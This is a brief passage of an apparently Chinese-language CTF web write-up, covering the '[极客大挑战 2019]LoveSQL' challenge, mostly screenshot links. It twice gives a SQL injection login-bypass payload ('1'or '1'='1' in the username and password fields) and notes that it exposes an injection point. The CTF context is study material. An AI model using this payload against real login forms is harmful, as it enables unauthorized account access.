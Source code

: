 ## 1、构造万能密码登录

payload：username=1'or '1'='1&password=1'or '1'='1

![image-20231031002819154](CTF(WEB)image/image-20231031002819154.png)





# [极客大挑战 2019]LoveSQL

![image-20231031234034761](CTF(WEB)image/image-20231031234034761.png) 

构造万能密码登录

username=1'or '1'='1&password=1'or '1'='1

拿到账号密码，说明存在SQL注入点

![image-20231031234157480](CTF(WEB)image/image-20231031234157480.png)
